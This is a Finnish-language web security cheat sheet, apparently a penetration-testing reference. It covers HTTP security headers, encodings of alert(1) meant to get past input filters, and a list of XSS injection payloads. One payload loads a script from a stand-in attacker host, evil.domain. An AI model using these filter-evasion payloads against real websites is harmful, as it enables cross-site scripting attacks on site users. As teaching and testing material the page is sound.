 |Strict-Transport-Security| Ohjeistaa selainta käyttämään aina HTTPS:ää. Ignoroidaan HTTP:tä käytettäessä.|Muut kuin IE||http://en.wikipedia.org/wiki/HTTP_Strict_Transport_Security|
|Cache-Control|IE:n kanssa monenlaisia ongelmia luvassa. Voi toimia myös eri tavalla HTTPS-protokollassa.| | | |
|X-XSS-Protection|Ehdottaa selaimelle, että sisällössä voi olla potentiaalisesti XSS sisältöä.|IE, Chrome, Safari| 1 (jos sivulla näytetään käyttäjän sisältöä), selain voi tämän perusteella käynnistää XSS filtterinsä.|OWASP-ZAP antaa low-tason varoituksen tämän puuttumisesta.|
|X-Forwarded-For|Reverse proxy asettaa tämän. Tätä ei pitäisi hyväksyä käyttäjän selaimelta, koska se voi aiheuttaa ongelmia.| | Vastaava myös x-forwarded-host|
|Content-Security-Policy|Voi asettaa rajoituksia sille mitä sisältöä selain voi ladata.| | | Katso https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Content-Security-Policy|
|Access-Control-Allow-Origin|Mahdollistaa same-origin policyn kiertämisen (CORS)|* poistaa rajoituksen kokonaan, ei hyvä idea.| | |https://developer.mozilla.org/en-US/docs/Web/HTTP/Access_control_CORS |
|Upgrade-Insecure-Requests|Käytetään HTTPS-protokollaa HTTP:n sijaan automaattisesti.|muut paitsi IE|1|https://developer.mozilla.org/en-US/docs/Web/HTTP/Headers/Upgrade-Insecure-Requests|

Yksityiskohtia selainten tarjoamasta tuesta: [Can I Use?](http://www.caniuse.com/#compare=ie+11,edge+16,firefox+58,chrome+64,safari+11,opera+49&compare_cats=Security)
 

## Enkoodaukset

Eri tilanteissa web-sovellukset enkoodaavat sisältöä eri tavoilla. Erilaisten suodattimien ja tarkistusten ohittaminen edellyttää joskus erilaisten enkoodausten hyväksikäyttöä. Tässä on yhteenveto ja esimerkkejä.

* normaali: ```alert(1)```
* Javascript, Octal: ```\141\154\145\162\164\50\61\51```
* HTML, hex: ```&#x61;&#x6c;&#x65;&#x72;&#x74;&#x28;&#x31;&#x29;```
* HTML, decimal: ```&#97;&#108;&#101;&#114;&#116;&#40;&#49;&#41;```
* Javascript,HEX: ```\x61\x6c\x65\x72\x74\x28\x31\x29```
* Javascript, unicode ```\u0061\u006c\u0065\u0072\u0074\u0028\u0031\u0029```
* Javascript, Unicode ```\u{0061}\u{006c}\u{0065}\u{0072}\u{0074}\u{0028}\u{0031}\u{0029}```
* URL: ```%61%6c%65%72%74%28%31%29```
* Base64

### Javascript, puolipiste-enkoodauksen ohitus

Myös tämä on sallittu tapa enkoodata asioita joskus.

```
&#0000106&#0000097&#0000118&#0000097&#0000115&#0000099&#0000114&#0000105&#0000112&#0000116&#0000058&#0000097&#0000108&#0000101&#0000114&#0000116&#0000040&#0000039&#0000088&#0000083&#0000083&#0000039&#0000041
```

Lisätietoa:
* Javascriptin enkoodaukset: https://mathiasbynens.be/notes/javascript-escapes
* HTML enkoodaukset: https://mathiasbynens.be/notes/ambiguous-ampersands
* Erikoismerkit verkko-osoitteissa: [Punycode](https://en.wikipedia.org/wiki/Punycode)


## Javascriptin ajaminen

Javascriptin ujuttamiseen ajoon on useita eri tapoja jos sovelluksessa on huolimattomuuden takia jonkinlainen XSS-aukko tai muu ongelma. Tässä on listattu joitakin:

* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<script>alert(1)</script>```
* ```<script src="http://evil.domain/hak.js"/>```
* Viallinen HTML, esim. ```<scr<script>ipt>alert('XSS')</scr<script>ipt>```
* ```<img src="lol.jpg" onError=alert(1)>```
* onLoad, onChange yms. vastaavasti
* ```<img src=x onerror=alert('XSS')//``` - kommentin hyväksikäyttö
* ```<img src=x:alert(alt) onerror=eval(src) alt=xss>```
* ```<svg/onload=alert(1)>``` SVG-kuvaformaatin hyväksikäyttö + event handler.
* ```<svg id=alert(1) onload=eval(id)>```
* ```<input autofocus onfocus=alert(1)>```